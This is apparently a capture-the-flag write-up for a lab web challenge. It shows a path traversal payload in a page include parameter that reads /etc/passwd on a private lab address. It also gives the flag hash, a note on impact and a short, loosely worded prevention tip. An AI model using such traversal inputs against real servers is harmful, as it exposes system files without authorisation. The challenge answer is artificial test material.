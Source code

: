# 03_Include

Unsecure file stored in the website.

## Method

We can use the page include to do transversal directoring,
to go back to / etc / passwd
Go to <http://192.168.1.102/?page=../../../../../../../etc/passwd>
To get the flag:    b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

## Manipulation

An attacker might be able to write to arbitrary files on the server,
allowing them to modify application data or behavior, and ultimately take full control of the server.

## Prevension

Protect your important files in the back-end, or use a secure database instead of storing it in the front-end.
